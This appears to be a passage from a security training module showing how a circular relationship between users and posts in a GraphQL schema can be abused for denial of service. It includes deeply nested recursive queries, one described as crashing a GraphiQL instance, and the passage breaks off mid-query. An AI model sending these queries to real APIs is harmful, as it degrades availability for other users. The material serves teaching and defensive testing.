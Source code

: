 To execute a DoS attack, we must identify a way to construct a query that results in a large response. Let's look at the visualization of the introspection results in `GraphQL Voyager`. We can identify a loop between the `UserObject` and `PostObject` via the `author` and `posts` fields:

![](pSnthsB2PFZc.png)

We can abuse this loop by constructing a query that queries the author of all posts. For each author, we then query the author of all posts again. If we repeat this many times, the result grows exponentially larger, potentially resulting in a DoS scenario.

Since the `posts` object is a `connection`, we need to specify the `edges` and `node` fields to obtain a reference to the corresponding `Post` object. As an example, let us query the author of all posts. From there, we will query all posts by each author and then the author's username for each of these posts:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}

```

This is an infinite loop we can repeat as many times as we want. If we take a look at the result of this query, it is already quite large because the response grows exponentially larger with each iteration of the loop we query:

![](yHaXidmZVZqo.png)

Making our initial query large will slow down the server significantly, potentially causing availability issues for other users. For instance, the following query crashes the `GraphiQL` instance:

```graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
```